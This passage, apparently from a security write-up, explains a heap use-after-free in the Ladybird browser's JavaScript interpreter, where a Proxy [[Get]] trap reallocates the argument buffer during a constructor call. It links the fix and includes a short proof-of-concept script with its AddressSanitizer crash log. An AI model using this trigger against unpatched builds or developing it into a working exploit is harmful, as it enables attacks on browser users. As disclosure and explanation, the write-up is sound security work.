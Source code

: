 ### The Argument Buffer

The interpreter stores arguments for function calls in a vector called `m_argument_values_buffer`.
It can grow, shrink, be freed, or reallocated — and we have some control over when that happens.
For example, if the current buffer holds $5$ JS values, and we run:

```js
foo(1, 2, 3, 4, 5, 6, 7, 8, 9, 10)
```

then the buffer will need to be freed and reallocated somewhere with space for 10 JS values.
Using this, we can free the interpreter's internal argument buffer — the same one that `arguments_list`
*still* points to — before it's used to set up the `callee_context` for the proceeding constructor call.

The fix is to do the prototype `[[Get]]` strictly *after* the callee context has been constructed.
[Here's](https://github.com/LadybirdBrowser/ladybird/commit/f5a670421954fc7130c3685b713c621b29516669)
the patch.

Here's an example:
```js
function Construct() {}

let handler = {
    get() {
        function meow() {}
        meow(0x41, 0x41, 0x41);
    }
};

let ConstructProxy = new Proxy(Construct, handler);

new ConstructProxy(0x41);
```

We override `Construct`'s `[[Get]]` internal method with a function that tries to reallocate the
argument buffer. Then we invoke the constructor to trigger the bug.

```python
➜  ladybird git:(b8fa355a21) ✗ js bug.js
=================================================================
==8726==ERROR: AddressSanitizer: heap-use-after-free on address 0x5020000038f0 at pc 0x7f98dd1bf19e bp 0x7ffcc8ee2ef0 sp 0x7ffcc8ee2ee8
READ of size 8 at 0x5020000038f0 thread T0
    #0 0x7f98dd1bf19d  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xbbf19d)
    #1 0x7f98dd1bdf8f  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xbbdf8f)
    #2 0x7f98dd22a555  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xc2a555)
    #3 0x7f98dd539cdd  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xf39cdd)
    #4 0x7f98dce78c0e  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x878c0e)
    #5 0x7f98dcdcdc0a  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7cdc0a)
    #6 0x7f98dcdb818a  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b818a)
    #7 0x7f98dcdb6971  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b6971)
    #8 0x562b5099e2a2  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x1922a2)
    #9 0x562b5099b114  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x18f114)
    #10 0x562b509c1029  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x1b5029)
    #11 0x7f98dae2a1fd  (/nix/store/rmy663w9p7xb202rcln4jjzmvivznmz8-glibc-2.40-66/lib/libc.so.6+0x2a1fd) (BuildId: 7b6bfe7530bfe8e5a757e1a1f880ed511d5bfaad)
```